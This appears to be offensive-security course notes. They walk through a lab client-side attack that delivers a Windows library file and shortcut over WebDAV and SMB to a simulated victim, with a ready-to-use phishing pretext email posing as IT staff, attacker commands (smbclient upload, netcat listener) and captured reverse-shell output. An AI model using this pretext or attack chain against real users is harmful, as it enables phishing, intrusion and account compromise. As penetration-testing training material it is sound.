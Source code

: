 To conclude this section, let's obtain a reverse shell from the _HR137_ machine at **192.168.50.195**
+ For this example, we'll provide the Windows library file we created to a simulated victim with a pretext
+ Our goal is to convince the victim to double-click the shortcut after embedding the WebDAV share via the prepared Windows library file

The pretext is an important aspect of this client-side attack
+ In this case we could tell the target that we are a new member of the IT team and we need to configure all client systems for the new management platform
+ We'll also tell them that we've included a user-friendly configuration program. An example email for use in a real assessment is shown below
```
Hello! My name is Dwight, and I'm a new member of the IT Team. 

This week I am completing some configurations we rolled out last week.
To make this easier, I've attached a file that will automatically
perform each step. Could you download the attachment, open the
directory, and double-click "automatic_configuration"? Once you
confirm the configuration in the window that appears, you're all done!

If you have any questions, or run into any problems, please let me
know!
```

Now, let's copy **automatic_configuration.lnk** and **config.Library-ms** to our WebDAV directory on our Kali machine
+ For convenience, we can use the **config** library file to copy the files into the directory
+ In a normal assessment we would most likely send the library file via email but for this example, we'll use the **\\192.168.50.195\share** SMB share to simulate the delivery step

Next, we'll start the Python3 web server on port 8000 to serve **powercat.ps1**, WsgiDAV for our WebDAV share **/home/kali/webdav**, and a Netcat listener on port 4444
+ To upload the library file to the SMB share, we'll use **smbclient** with the **-c** parameter to specify the **put config.Library-ms** command
+ Before we execute smbclient, we need to change our current directory to the library file's directory
+ We'll also delete the previously-created **test.txt** file from the WebDAV share
```
kali@kali:~$ cd webdav

kali@kali:~/webdav$ cd webdav

kali@kali:~/webdav$ rm test.txt

kali@kali:~/webdav$ smbclient //192.168.50.195/share -c 'put config.Library-ms'
Enter WORKGROUP\kali's password: 
putting file config.Library-ms as \config.Library-ms (1.8 kb/s) (average 1.8 kb/s)
```

After we put the library file on the target's machine via smbclient, a simulated user on the system opens it and starts the reverse shell by executing the shortcut file
```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.195] 56839
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
whoami
hr137\hsmith
```
+ Above shows that we successfully received a reverse shell with our Library and shortcut files
